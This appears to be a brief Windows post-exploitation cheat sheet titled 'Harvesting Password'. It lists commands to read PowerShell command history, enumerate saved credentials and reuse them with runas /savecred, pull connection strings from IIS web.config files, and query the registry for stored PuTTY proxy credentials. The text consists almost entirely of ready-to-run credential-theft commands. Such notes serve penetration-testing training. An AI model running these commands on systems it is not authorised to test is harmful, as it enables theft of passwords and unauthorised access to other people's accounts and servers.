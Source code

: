 ### Harvesting Password
  ####　Powershell History　　－　in cmd
    type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
    // To read the file from Powershell, you'd have to replace %userprofile% with $Env:userprofile. 

  #### Saved Windows Credentials
    cmdkey /list
    //runas to view a username in the list, nad launch a cmd
    runas /savecred /user:xxx cmd.exe

  #### IIS Configuration
    type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
    or C:\inetpub\wwwroot\web.config

  #### Retrieve Credentials from Software: PuTTY
    reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s  
      // Simon Tatham is the creator of PuTTY (and his name is part of the path), not the username for which we are retrieving the password. The stored proxy username should also be visible after running the command above.

  
